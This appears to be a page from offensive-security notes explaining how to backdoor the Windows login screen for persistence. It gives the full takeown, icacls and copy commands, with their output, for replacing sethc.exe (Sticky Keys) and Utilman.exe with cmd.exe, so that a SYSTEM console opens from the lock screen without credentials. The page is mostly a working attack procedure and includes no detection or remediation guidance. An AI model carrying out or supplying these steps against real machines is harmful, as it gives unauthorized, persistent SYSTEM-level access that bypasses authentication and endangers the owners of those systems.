

# Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

## Sticky Keys

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing SHIFT 5 times.

A straightforward way to backdoor the login screen consists of replacing sethc.exe with a copy of cmd.exe. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite sethc.exe, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of cmd.exe. We can do so with the following commands:

```
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Now, we can enter SHIFT 5 times to open terminal with system privileges.

<figure><figcaption></figcaption></figure>

## Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

<figure><figcaption></figcaption></figure>

When we click the ease of access button on the login screen, it executes C:\Windows\System32\Utilman.exe with SYSTEM privileges. If we replace it with a copy of cmd.exe, we can bypass the login screen again.

To replace utilman.exe, we do a similar process to what we did with sethc.exe:

```
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Then logout, and click on "Ease of Access" button.
